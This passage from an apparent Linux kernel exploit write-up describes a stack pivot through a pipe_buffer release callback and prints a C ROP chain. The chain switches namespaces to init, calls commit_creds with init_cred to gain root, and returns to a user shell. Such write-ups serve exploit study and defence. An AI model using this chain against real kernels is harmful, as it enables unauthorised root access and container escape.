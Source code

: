 When `pipe_buffer->ops->release()` is called, the arguments are passed as above. Therefore, the address of the `pipe_buffer` object to be released is entered into rsi. Since rsi has the address of `pipe_buffer`, we can do rop if we do `mov rsp, rsi ; ret`. However, I couldn't find such a neat gadget, so I combined `push rsi ; jmp qword ptr [rsi + 0x66]` and `pop rsp ; ret` to achieve the same effect.

Now rsp points to the `pipe_buffer` structure. However, since there is an `pipe_buffer->ops` field to be overwritten in the header, we need to move rsp further back in order to write a clean rop chain. We moved rsp to the back by executing `pop rsp ; ret` once more.

## ROP Chain

```c
*rop++ = pop_rdi;
*rop++ = 1;
*rop++ = find_task_by_vpid;
*rop++ = mov_rdi_rax_pop_rbx;
*rop++ = 0;
*rop++ = pop_rsi;
*rop++ = init_nsproxy;
*rop++ = switch_task_namespaces;
*rop++ = pop_rdi;
*rop++ = init_cred;
*rop++ = commit_creds;
*rop++ = kpti_trampoline;
*rop++ = 0;
*rop++ = 0;
*rop++ = (uint64_t)shell;
*rop++ = rv.user_cs;
*rop++ = rv.user_rflags;
*rop++ = rv.user_rsp;
*rop++ = rv.user_ss;
```
The ROP Chain was written as above. I changed the namespace by executing `switch_task_namespace(find_task_by_vpid(1), &init_nsproxy)` and then elevated privileges to root by executing `commit_creds(&init_cred)`.

Returning to user mode is done by calling the `swapgs_restore_regs_and_return_to_usermode` function. Since there are a lot of pops at the beginning of the function, you can skip that part and just call it.